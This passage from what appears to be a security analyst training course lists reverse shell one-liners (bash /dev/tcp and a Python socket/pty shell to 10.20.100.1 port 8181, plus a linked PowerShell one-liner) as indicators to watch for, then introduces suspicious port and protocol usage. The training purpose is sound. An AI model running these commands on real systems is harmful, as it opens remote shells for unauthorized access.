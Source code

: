   <td>
    <h4 class="fw-bold">
      bash -i &gt;&amp; /dev/tcp/10.20.100.1/8181 0&gt;&amp;1
    </h4>
    <h4 class="fw-bold">
      /bin/bash -l &gt; /dev/tcp/10.20.100.1/8181 0&lt;&amp;1
      2&gt;&amp;1
    </h4>
  </td>
</tr>
<tr>
  <td>Python</td>
  <td>
    <b class="fw-bold"
      >export RHOST="10.20.100.1";export RPORT=8181;python -c 'import
      socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)
      for fd in (0,1,2)];pty.spawn("/bin/sh")'</b>
  </td>
</tr>
<tr>
  <td>PowerShell reverse shell one-liner</td>
  <td>
    <p>
      See
      <a
        href="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3"
        target="_blank">
        https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3</a>
      <span class="centered"> created by egre55</span>
      .
    </p>
  </td>
</tr>
</tbody>
</table>

Reverse shell commands are unlikely to represent normal activity. Any indication that one of the reverse shell commands has been used indicates suspicious activity and potential unauthorized access (potential because the reverse shell may not have worked to establish a shell).

The other commands listed for Windows, PowerShell, and Linux warrant further investigation, as an engineer or administrator may have used them to troubleshoot a problem, reconfigure a service, obtain remote access for legitimate purposes, or complete a change request. The objective is to determine what scenario sufficiently explains why the commands were used. Even if an authorized employee used the commands, the reason they were used may not be justified and could indicate malicious intent or a failure to follow established protocol.

### 8.3.9 Suspicious Protocol and Port Usage

Click one of the buttons to take you to that part of the video.

Suspicious Protocol and Port Usage 00:00-00:25
In a typical network, most traffic should be flowing between the clients and servers. This traffic should be using standard ports and protocols. Any unusual traffic should be immediately investigated as this can be a sign of a potential threat. In this lesson, we'll go over how to identify suspicious traffic based on the ports and protocols being used. We'll then wrap up with some ways we can mitigate this type of non-standard traffic.
